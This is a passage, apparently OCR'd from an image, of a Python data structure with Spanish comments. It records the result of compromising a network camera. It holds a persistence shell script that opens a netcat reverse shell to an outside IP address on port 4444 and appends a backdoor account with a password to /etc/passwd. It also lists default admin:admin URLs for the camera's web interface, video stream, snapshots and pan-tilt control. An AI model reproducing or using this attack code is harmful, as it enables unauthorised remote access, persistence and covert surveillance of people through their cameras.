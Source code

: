 ```python
                'script_content': '#!/bin/sh\n# Script de persistencia para cámara 192.168.1.1:80\n# Ejecutar cada 5 minutos para mantener acceso\n\n# Verificar conexión externa\nnc -z 212.95.62.135 4444 2>/dev/null\nif [ $? -ne 0 ]; then\n    # Reestablecer conexión\n    nc -e /bin/sh 212.95.62.135 4444 &\nfi\n\n# Mantener usuario backdoor activo\necho \"backdoor_user:Backdoor_2024!\" >> /etc/passwd 2>/dev/null\n',
                'status': 'created'
            }
        ],
        'external_connection': {
            'type': 'reverse_shell',
            'external_ip': '212.95.62.135',
            'external_port': 4444,
            'connection_method': 'netcat_reverse',
            'command': 'nc -e /bin/sh 212.95.62.135 4444',
            'status': 'configured'
        },
        'timestamp': 1757383914.3245564
    },
    'access_urls': {
        'web_interface': [
            'http://admin:admin@192.168.1.1:80/',
            'http://admin:admin@192.168.1.1:80/index.html',
            'http://admin:admin@192.168.1.1:80/login.html',
            'http://admin:admin@192.168.1.1:80/main.html'
        ],
        'streaming': [
            'http://admin:admin@192.168.1.1:80/video.mjpg',
            'http://admin:admin@192.168.1.1:80/mjpeg',
            'http://admin:admin@192.168.1.1:80/stream',
            'http://admin:admin@192.168.1.1:80/live'
        ],
        'snapshots': [
            'http://admin:admin@192.168.1.1:80/snapshot.cgi',
            'http://admin:admin@192.168.1.1:80/image',
            'http://admin:admin@192.168.1.1:80/snapshot',
            'http://admin:admin@192.168.1.1:80/jpg'
        ],
        'control': [
            'http://admin:admin@192.168.1.1:80/cgi-bin/ptz.cgi',
            'http://admin:admin@192.168.1.1:80/cgi-bin/control.cgi',
            'http://admin:admin@192.168.1.1:80/api/ptz',
            'http://admin:admin@192.168.1.1:80/control'
        ]
    },
    'timestamp': 1757383914.324627
}
```

## Comandos de Sistema Utilizados
